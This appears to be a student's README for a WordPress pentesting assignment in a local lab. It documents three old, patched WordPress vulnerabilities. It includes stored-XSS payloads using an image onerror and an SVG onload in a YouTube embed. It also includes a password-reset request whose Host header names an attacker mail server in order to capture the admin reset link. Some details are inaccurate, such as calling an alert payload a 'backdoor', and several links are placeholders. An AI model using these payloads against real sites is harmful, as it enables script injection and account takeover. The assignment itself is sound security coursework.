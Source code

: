 # Assignment_7
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) VUlnerability Name or ID: Wordpress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: Used wpscan to locate XSS vulnerability. Then look at steps to recreate. 
    - Vulnerability types:XSS
    - Tested in version: WP 4.2 
    - Fixed in version: WP 4.2.10
  - [ ] GIF Walkthrough: <a href="https://imgur.com/koN3Nea"><img src="https://i.imgur.com/koN3Nea.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Login as admin. Go to create a page. Insert XSS into the headline of the page. View page. XSS will demonstrate. 
  - [ ] Affected source code: .....<div class="entry-content">
		<p class="p1"><span class="s1">&lt;IMG SRC=&#8221;#&#8221; ONERROR=&#8221;</span><span class="s2">alert(&#8216;XSS&#8217;)</span><span class="s1">&#8220;/&gt;</span></p>.....
			</div><!-- .entry-content -->
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Vulnerability Name or ID: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Script opens backdoor that gives attacker access to the site. 
    - Vulnerability types: XSS
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.2.13
  - [ ] GIF Walkthrough: <a href="https://imgur.com/88S3nye"><img src="https://i.imgur.com/88S3nye.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Find youtube video link to embed. Use the following code on the end x3csvg onload=alert(1)x3e’ Open backdoor to site.
  - [ ] Affected source code:<iframe width="560" height="315" src="’https://www.youtube.com/embed/fWeR6UhHRAM\x3csvg onload=alert(1)x3e’" frameborder="0" allowfullscreen></iframe>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
  - [ ] Summary: We can manipulate the URL into revealing the admin username. In addition, we can also use a tool like burp to reset the admin password. 
    - Vulnerability types: User Enumeration/ Priviledge Escalation
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.7.4
  - [ ] GIF Walkthrough: <a href="https://imgur.com/E1Nmx8l"><img src="https://i.imgur.com/E1Nmx8l.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: I just tested the URL as my Burp has been acting up...but I am going to post the content I found for that here too. I just added http://wpdistillery.local/wp-login.php?action=adminlostpassword%20HTTP/1.1 an extra little bit of code to the url in order to get the admin username. I could take it a step further and request a new password for the admin and have it sent to my email of choice by sending the email to an email server of my choice and modifying burp in the following manner:
  
  POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
  
  HOST: injected-attackers-mxserver.com
  
  Content-Type: application/x-www-form-urlencoded
  
  Content-Length: 56
  
  user login=admin&redirect to=wp-submit=Get+New+Password
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
